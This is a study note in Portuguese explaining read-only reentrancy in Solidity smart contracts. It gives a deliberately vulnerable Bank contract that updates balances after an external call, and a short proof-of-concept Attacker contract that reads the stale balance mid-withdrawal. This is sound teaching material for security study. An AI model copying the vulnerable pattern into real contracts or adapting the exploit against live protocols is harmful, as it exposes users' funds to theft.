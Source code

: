 :PROPERTIES:
:ID:       678d0ee9-4fd4-4f9f-9ae9-180b756832d8
:END:
#+title: Reentrada de Somente-Leitura (Solidity)
#+date: 2023-09-12
#+filetags: reentrancy

- tags :: [[id:410e9489-9d48-44a3-8125-abf61a8df4c8][Reentrada (SWC-107)]]
- source :: [[https://scsfg.io/hackers/reentrancy/#read-only-reentrancy][Read-Only Reentrancy (SCSFG)]]

É um tipo específico de reentrada entre contratos que acontece quando o comportamento de um contrato inteligente depende do estado de outro contrato e essa informação fica desatualizada para o contrato que a utiliza.

* Vulnerabilidade
#+begin_src solidity
contract Bank is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function deposit() external payable {
	balances[msg.sender] += msg.value;
    }

    function withdraw() public nonReentrant {
	uint256 amount = balances[msg.sender];
	(bool success, ) = payable(msg.sender).call{value: amount}("");
	require(success);
	balances[msg.sender] = 0;
    }
}

contract BankConsumer {
    Bank private bank;

    constructor(address _bank) {
	bank = Bank(_bank);
    }
    
    function getBalance(address account) public view returns (uint256) {
	return bank.balances(account);
    }
}
#+end_src

* Exploitando
#+begin_src solidity
contract Attacker {
    event Checkpoint(uint256 balance);

    Bank public bank;
    BankConsumer public consumer;

    constructor(address _bankAddress, address _consumerAddress) {
	bank = Bank(_bankAddress);
	consumer = BankConsumer(_consumerAddress);
    }

    function attack() public {
	emit Checkpoint(consumer.getBalance(address(this))); // 1 - 0 ether
	bank.deposit{value: 1 ether}();
	bank.withdraw();
	emit Checkpoint(consumer.getBalance(address(this))); // 3 - 0 ether
    }

    receive() external payable {
	emit Checkpoint(consumer.getBalance(address(this))); // 2 - 1 ether
    }
}
#+end_src
